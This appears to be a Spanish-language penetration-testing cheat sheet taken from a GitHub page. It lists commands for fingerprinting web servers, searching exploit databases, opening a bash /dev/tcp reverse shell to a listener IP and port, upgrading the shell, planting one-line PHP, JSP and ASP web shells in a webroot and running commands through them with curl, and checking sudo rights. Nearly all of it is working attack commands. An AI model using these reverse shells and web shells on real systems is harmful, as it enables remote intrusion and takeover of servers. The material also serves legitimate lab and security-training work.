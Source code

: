 ## Comandos generales

- Extraer versión de web servers, frameworks y aplicaciones.

    whatweb [IP]
    whatweb 192.168.122.1

- Enumeracación a una red entera

    whatweb --no-errors [NETWORK/XX]
    whatweb --no-errors 192.168.122.0/24

- Buscar exploits para un servicio o aplicación en específico

	sudo apt install exploitdb -y
	searchsploit [SERVICE] [N°]
	example: searchsploit openssh 7.2

- Comandos de reverse shell

    bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'
    bash -c 'bash -i >& /dev/tcp/192.168.122.1/1234 0>&1'

- Upgrading TTY

    python -c 'import pty; pty.spawn("/bin/bash")'

    ctrl + z (for background our shell)
    stty raw -echo
    fg

- Input the following commands to get our variables, esto sirve para ejecutar y corregir el tamaño de nuestra terminal en la netcat shell.

    echo $TERM
    stty size
        67 318

- Writing a web shell script

    php:
    <?php system($_REQUEST["cmd"]); ?>

    jsp:
    <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>

    asp:
    <% eval request("cmd") %>

- Uploading the web shell script in the webroot directory of the web server

    php:
    echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

- Ejecutar el comando mediante el script webshell

    http://SERVER_IP:PORT/shell.php?cmd=[COMMAND]
    http://SERVER_IP:PORT/shell.php?cmd=id
    
    curl http://SERVER_IP:PORT/shell.php?cmd=[COMMAND]
    curl http://SERVER_IP:PORT/shell.php?cmd=id

- Ver los privilegios que tiene el usuario actual con sudo

    sudo -l

    Si sale este resultado, el NOPASSWD, significa que podemos ejecutar el comando sudo con ese usuario sin necesidad de poner contraseña:
        (user : user) NOPASSWD: /bin/echo

- Ejecutar sudo como un usuario que tenga privilegios

    sudo -u [USER] /bin/echo Hello World!
    sudo -u user1 /bin/echo Hello World!
